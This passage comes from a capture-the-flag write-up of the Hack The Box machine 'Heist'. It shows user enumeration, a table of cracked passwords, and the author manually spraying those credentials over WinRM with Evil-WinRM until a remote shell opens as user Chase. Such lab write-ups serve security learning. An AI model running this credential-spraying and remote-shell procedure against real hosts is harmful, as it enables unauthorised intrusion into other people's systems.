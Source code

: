 ```console
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Great - so I got the workgroup: SUPPORTDESK and a bunch of other users I can try. Lets update my credential table:

|Username|Password|
|:---:|:---:|
|rout3r|`$uperP@ssword`|
|admin|`Q4)sJu\Y8qz*A3?d`|
|Hazard| `stealth1agent`|
|Support Admin|       |
|Chase |      |
|Jason | |
|Administrator | |
|Guest | |

From here I started on the port that actually had something to it, **5985**. I did find a tool that I can use in conjunction that open port: [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

Manually bruteforcing through all the combinations of credentials is what I deemed the most efficient at the time, and I did end up getting some success:

```console
root@endeavour:~/htb/heist/evil-winrm# ./evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
 
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> ls
*Evil-WinRM* PS C:\Users\Chase\Documents> pwd

Path                    
----                    
C:\Users\Chase\Documents


*Evil-WinRM* PS C:\Users\Chase\Documents> dir
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> dir


    Directory: C:\Users\Chase


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-r---        4/22/2019   7:14 AM                3D Objects                                                                                                                                                                                              
```